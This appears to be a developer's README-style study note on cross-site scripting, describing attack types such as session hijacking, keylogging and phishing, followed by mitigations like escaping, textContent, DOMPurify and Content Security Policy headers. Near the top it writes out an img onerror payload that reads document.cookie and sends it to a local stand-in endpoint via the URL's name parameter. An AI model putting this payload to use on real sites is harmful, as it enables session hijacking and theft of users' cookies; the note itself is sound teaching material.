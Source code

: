 ## XXS

## Vulnerabilities

### User Sesson Hijack
- When we are reading someting from url using search params, a random script can be added to our url in place of name which can execute a sciprt and steal our data.

- Now a days browsers are smart to not allow script tag to be added to url but, there are still hacks that can be done.
- eg <img src=\"does-not-exits\" onerror=\"var img=document.createElement(\'img\') img.src=`http://127.0.0.1:5501/cookie?data=${document.cookie}`; document.querySelector(\'body\').appendChild(img);\">

[encodeURIComponent("<img src=\"does-not-exits\" onerror=\"var img=document.createElement('img') img.src=`http://127.0.0.1:5501/cookie?data=${document.cookie}`; document.querySelector('body').appendChild(img);\">")]

- and pass above to url ?name="malicious script"
- the script executes and reads our cookies which is sensitive data.

### Unauthorized activities
- OR, hacker may execute some function (API) written inside you code with malicious information. As it is your code it will have all authorization and access and will execute successfully

### Capturing keystroke
- Or, Hacker can add script to track all key press events and get all data user is typing, which maybe be sensitive. eg password

### Stealing critical Information
- Hacker can write script to pass entire document.body.innerHTML to some malicious endpoint, whcih may pass critical information along

### phishing attact
- Hacker and insert their own html in DOM which may look very much similar to original, eg a form which takes login credentials

## Mitigation

- List all possible ways to take you input

- Use innerText or textContent in place of innerHTML - innerText will be pritext as syntax and not js code or dom element, it will be printed as norml string

- New modal of browser takes care of not executing script inject from url, it will be present but not execute, for older browser we need to handle by using innerText/textContent

- Use escaping mechnaism eg - const sanitizedName - name.replace(/</g, '&lt;').replace(/>/g, '&gt;') this will make any scipt inject to iur system non executable, the inject script will not be taken as dom element on execution but a string

- Using library React, all this sanitization is done behind the scene by React and other libraries for security purpose. This is provided out of the box.

- avaoid dangerouslysetinnerhtml, React allows this but should be avoided as they can be harmful. Use DOMPurify to sanitize your data if necessary.

- Use DOMPurify to sanitize your data DOMPurify.sanitize(name)

- CSP Headers (Content Security Policy Headers) - it can be ser on server, decided what type of resources can be loaded and from where all it can be loaded, to avoid injection form third party. Event handling which script to inject can be handled.

- Decide Allowed Sources
- Script Nonces
- Report only mode, - form where and how many places attackes are being tried

- Avoid using eval - it executes any code indside it, an be harmful